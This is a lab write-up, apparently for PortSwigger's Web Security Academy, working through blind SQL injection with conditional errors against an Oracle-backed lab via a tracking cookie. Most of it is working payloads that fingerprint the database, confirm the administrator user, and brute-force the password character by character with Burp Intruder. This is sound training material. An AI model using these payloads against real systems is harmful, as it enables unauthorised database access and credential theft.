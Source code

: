 # Lab #12 - Blind SQL injection with conditional errors
https://portswigger.net/web-security/sql-injection/blind/lab-conditional-errors

Vulnerable parameter - tracking cookie


**End Goals:**
- Output the administrator password
- Login as the administrator user


**Analysis:**

1) Prove that parameter is vulnerable 

*Note for Burp: **ctrl + F5** to convert code*

```SQL
''
```
```SQL
' || (select '') || '
```
-> error 500 that means is not a MySQL Database
```SQL
' || (select '' from dual) || ' 
``` 
-> Oracle Database

```SQL
' || (select '' from sametablename) || ' 
```
-> error sametablename don't exist

2) Confirm that the users table exists in the database
```SQL
' || (select '' from users) || ' 
```
-> error 
```SQL
' || (select '' from users where rownum =1) || ' 
```
-> users table exists

3) Confirm that the administrator user exists in the users table
```SQL
' || (select '' from users where username='administrator') || ' 
```
```SQL
' || (select CASE WHEN (1=0) THEN TO_CHAR(1/0) ELSE '' END FROM dual) || ' 
```
```SQL
' || (select CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users where username='administrator') || ' 
```
-> Internal server error -> administrator user exists
```SQL
' || (select CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users where username='sameuser') || ' 
```
-> 200 response -> user does not exist in database

4) Determine length of password
```SQL
' || (select CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users where username='administrator' and LENGTH(password)>1) || ' 
```
-> 500 Internal Server error response at 1 -> length of password is greater than 1
```SQL
' || (select CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users where username='administrator' and LENGTH(password)>50) || ' 
```
-> 200 response at 50 -> length of password is less than 50

send request to the BurpSuite Intruder --> Attak type "Sniper" Payload type "Numbers"
```SQL
' || (select CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users where username='administrator' and LENGTH(password)>19) || ' 
```
-> 20 characters

5) Output the administrator password

```SQL
' || (select CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users where username='administrator' and substr(password,1,1)='a') || ' 
```
-> If 200 response at a --> a is not the first character of the password

send request to the BurpSuite Intruder -->  Attak type "Sniper" Payload type Brute forcer
```SQL
' || (select CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users where username='administrator' and substr(password,1,1)='§a§') || ' 
```
->  ***X*** is the first character of the password

Modify the request on BurpSuite Intruder -->  Attak type "Cluster bomb" first Payload type "Numbers" from 1 to 20 and the second Payload type "Brute forcer"
```SQL
' || (select CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users where username='administrator' and substr(password,§1§,1)='§a§') || ' 
```

->  You can also use the ***script.py*** to get the Password 
